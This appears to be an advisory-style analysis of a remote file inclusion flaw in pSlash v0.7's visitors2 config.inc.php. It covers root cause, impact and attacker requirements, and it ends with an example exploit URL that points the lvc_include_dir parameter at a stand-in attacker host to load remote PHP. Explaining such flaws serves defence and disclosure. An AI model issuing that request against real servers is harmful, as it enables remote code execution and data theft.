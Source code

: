 Based on the provided content, here's a breakdown of the vulnerability:

**Root Cause:**

*   The vulnerability stems from the `lvc_include_dir` variable within the `modules/visitors2/include/config.inc.php` file of pSlash v0.7. This variable is used in include and require statements without proper sanitization. Specifically, the code uses:
    *   `include($lvc_include_dir.'lang/english.inc.php');`
    *  `require($lvc_include_dir.'db/db_mysql.inc.php');`
*  The lack of input validation on the `lvc_include_dir` parameter allows an attacker to manipulate it and include remote files.

**Weaknesses/Vulnerabilities:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is RFI. The application blindly includes files based on the user-controlled `lvc_include_dir` parameter.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a malicious file from a remote server, an attacker can execute arbitrary code on the vulnerable server. This can lead to complete compromise of the system.
*   **Data Breach:**  The attacker can potentially gain access to sensitive information stored on the server or within the database.
*   **Website Defacement:** An attacker could modify the website's appearance or redirect users to malicious sites.
*   **Malware Distribution:** The server could be used to distribute malware to visitors.

**Attack Vectors:**

*   **HTTP GET Request:** The `lvc_include_dir` parameter is passed through a GET request, making it easily accessible and modifiable via the URL.

**Required Attacker Capabilities/Position:**

*   **Remote Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
*   **Web Server Accessibility:** The vulnerable `config.inc.php` file must be accessible through a web browser.
*   **Malicious Server:** The attacker needs a web server to host the malicious script that will be included.
*   **Basic Understanding of Web Application Vulnerabilities**

**Technical Details:**

*   The vulnerable code snippet is located in `/modules/visitors2/include/config.inc.php`.
*   The exploit involves setting the `lvc_include_dir` parameter in the URL to a malicious script hosted on a remote server.

**Example Exploit URL:**

```
http://www.site.com/[path]/modules/visitors2/include/config.inc.php?lvc_include_dir=http://evil_scripts?
```
Where:
* `http://www.site.com/[path]` represents the path to the vulnerable pSlash application.
* `http://evil_scripts` points to the attacker's web server where malicious PHP code is hosted.